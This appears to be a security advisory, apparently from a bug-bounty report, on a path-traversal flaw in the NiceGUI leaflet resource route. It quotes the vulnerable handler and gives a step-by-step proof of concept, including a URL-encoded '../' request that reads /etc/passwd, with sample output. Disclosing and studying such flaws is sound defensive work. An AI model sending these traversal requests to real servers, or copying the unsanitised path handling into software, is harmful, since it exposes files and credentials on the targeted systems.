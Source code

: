 ```yaml
---
layout: post
title:  "NiceUI: Local File Inclusion in NiceUI leaflet component"
date:  2024-04-10 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> NiceUI: Local File Inclusion in NiceUI leaflet component

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Description

A local file inclusion is present in the NiceUI leaflet component when requesting resource files under the `/_nicegui/{__version__}/resources/{key}/{path:path}` route.

## Proof of Concept

In [route](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98) `/_nicegui/{__version__}/resources/{key}/{path:path}` is used for [serving CSS and JS resources locally](https://github.com/zauberzeug/nicegui/commit/b465af3bb7a825c89ca6562e5eb7ebfeee5bb589). The `path` parameter in url is not sanitized before appended to base path, an attacker can use `..` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@app.get(f'/_nicegui/{__version__}' + '/resources/{key}/{path:path}')
def _get_resource(key: str, path: str) -> FileResponse:
    if key in resources:
        filepath = resources[key].path / path
        if filepath.exists():
            headers = {'Cache-Control': 'public, max-age=3600'}
            media_type, _ = mimetypes.guess_type(filepath)
            return FileResponse(filepath, media_type=media_type, headers=headers)
    raise HTTPException(status_code=404, detail=f'resource "{key}" not found')
```

However, the `resources` is only [initialized](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/elements/leaflet.py#L40) by `ui.leaflet` component. To exploit the bug, a developer should use `leaflet` component in web pages so that the route is activated. Consider following [code snippet](https://nicegui.io/documentation/leaflet#leaflet_map) from official document.

Firstly, install nicegui using `python pip`:

```
pip install nicegui
```
Then, save following code to `main.py`
```
from nicegui import ui

m = ui.leaflet(center=(51.505, -0.09))
ui.label().bind_text_from(m, 'center', lambda center: f'Center: {center[0]:.3f}, {center[1]:.3f}')
ui.label().bind_text_from(m, 'zoom', lambda zoom: f'Zoom: {zoom}')

with ui.grid(columns=2):
    ui.button('London', on_click=lambda: m.set_center((51.505, -0.090)))
    ui.button('Berlin', on_click=lambda: m.set_center((52.520, 13.405)))
    ui.button(icon='zoom_in', on_click=lambda: m.set_zoom(m.zoom + 1))
    ui.button(icon='zoom_out', on_click=lambda: m.set_zoom(m.zoom - 1))

ui.run()
```
Run the application, it will listen on `http://127.0.0.1:8080` by default.

```
python main.py
```
Open the webpage in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/leaflet/leaflet.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: 
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```
Modify the request by change `leaflet/leaflet.js` part to `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` which is `../../../../../etc/passwd` url-encoded content.

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: _xsrf=2|87674a0e|961e2a9f73992956aae527a8f55167fb|1706518977; _gitlab_session=64bf3e7143f852d8e3646970f8c7b3df; fakesession=hello
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` in browser(change ip and port to your server).

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
...
```

![niceui](./niceui.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the NiceUI leaflet website.



## Reference

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98)
